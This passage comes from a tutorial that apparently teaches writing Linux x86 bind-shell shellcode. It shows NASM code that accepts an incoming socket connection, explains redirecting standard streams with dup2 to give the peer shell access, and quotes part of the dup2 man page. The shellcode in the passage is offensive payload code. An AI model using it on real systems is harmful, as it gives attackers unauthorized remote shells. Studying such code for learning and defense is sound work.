 ```nasm
    ; --------------------
    ; # Setup accept
    ; socketcall
    mov al, 0x66     ; socketcall()
    mov bl, 0x5      ; SYS_ACCEPT

    ; Setup accept
    push edx         ; 0x0
    push edx         ; 0x0
    push edi         ; Our file descriptor

    mov ecx, esp     ; Second argument to socketcall() which points to the arguments for SYS_ACCEPT

    int 0x80         ; Execute
    mov edi, eax     ; $eax stores the peer's file descriptor, save it to edi
```

### Redirection and shell access

We have accepted a connection, time to give it shell access. We use `dup2` to redirect STDIN, STDOUT and STDERR to the peer's file descriptor. `man 2 dup2`:

```
DUP(2)                                                             Linux Programmer's Manual                                                             DUP(2)

NAME
       dup, dup2, dup3 - duplicate a file descriptor

SYNOPSIS
       #include <unistd.h>

       int dup(int oldfd);
       int dup2(int oldfd, int newfd);

       #define _GNU_SOURCE             /* See feature_test_macros(7) */
       #include <fcntl.h>              /* Obtain O_* constant definitions */
       #include <unistd.h>

       int dup3(int oldfd, int newfd, int flags);

DESCRIPTION
       These system calls create a copy of the file descriptor oldfd.

       dup() uses the lowest-numbered unused descriptor for the new descriptor.

       dup2() makes newfd be the copy of oldfd, closing newfd first if necessary, but note the following:

       *  If oldfd is not a valid file descriptor, then the call fails, and newfd is not closed.

       *  If oldfd is a valid file descriptor, and newfd has the same value as oldfd, then dup2() does nothing, and returns newfd.

[ for the sake of brevity, full output is not shown]
```
